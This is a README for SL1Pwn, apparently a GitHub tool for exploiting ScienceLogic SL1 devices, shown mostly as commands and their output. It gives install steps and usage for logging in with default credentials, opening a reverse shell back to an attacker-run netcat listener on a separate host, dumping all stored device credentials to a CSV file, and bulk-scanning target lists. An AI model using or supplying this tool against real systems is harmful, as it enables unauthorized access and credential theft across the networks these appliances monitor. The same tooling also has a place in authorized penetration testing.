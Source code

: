 # SL1Pwn - ScienceLogic Sl1 Exploitation
<p align="center">
  <img src="https://github.com/3NailsInfoSec/SL1Pwn/assets/131826735/38c24789-7936-4e48-9b04-f864453bdcfa">
</p>

This tool utilizes default credentials to obtain a reverse shell, dump credentials, and login via HTTP and SSH (single or bulk) on ScienceLogic SL1 devices. If default credentials are not correct, you can supply your own.

## Install:
```
git clone https://github.com/3NailsInfoSec/SL1Pwn.git
cd SL1Pwn
pip3 install -r requirements.txt
```
## Usage:

#### Login - Test login with default creds on port 443:
```
python3 sl1pwn.py -t 1.1.1.1

[+] UI Login Success! https://1.1.1.1:443
[+] API Login Success! https://1.1.1.1:443
```

#### SSH - Test ssh login with custom creds
```
python3 sl1pwn.py -t 1.1.1.1 -p 22 -user em7admin -pass admin123

[+] Possible SSH success 1.1.1.1:22
```

#### Shell - Pop shell on SL1 device (setup netcat listener first)
```
python3 sl1pwn.py -t 1.1.1.1 -shell -L 2.2.2.2 -P 4444

[+] UI Login Success! https://1.1.1.1:443
[+] API Login Success! https://1.1.1.1:443
[*] Created action with name: kjsKKe
[*] Created schedule successfully: 25
[*] Created automation successfully: 115

[+] Run book executed! Press enter when ready to clean up...

[*] Deleted action[121]: kjsKKe
[*] Deleted schedule[25]: kjsKKe
[*] Deleted automation[115]: kjsKKe

# nc -lvp 4444
Connection received on 1.1.1.1 45352
sh-4.2$
```

#### Dump - Dump all creds stored in SL1
```
python3 sl1pwn.py -t 1.1.1.1 -dump -o target_creds.csv

[*] Dumping 1.1.1.1::22 stored api credentials

[LifeSize: Endpoint SNMP]
[Cisco: CSP SNMP Port 161 Example]
[Cisco: CSP SNMP Port 1610 Exampl]
[Dell EMC: Isilon SNMPv2 Example]
[Cisco SNMPv3 - Example]
[Cisco SNMPv2 - Example]

[*] Saved to target_creds.csv
```

#### Scanning - Scan a combo IP:PORT list from a file
```
python3 sl1pwn.py -scan targets.txt -threads 25

[+] UI Login Success! https://1.1.1.1:443
[+] API Login Success! https://1.1.1.1:443
[+] UI Login Success! https://1.1.1.2:443
[+] API Login Success! https://1.1.1.2:443
```

## Credits
<a href ="https://twitter.com/sm00v">Twitter: @sm00v</a>

<a href ="https://github.com/sm00v">Github: @sm00v</a>
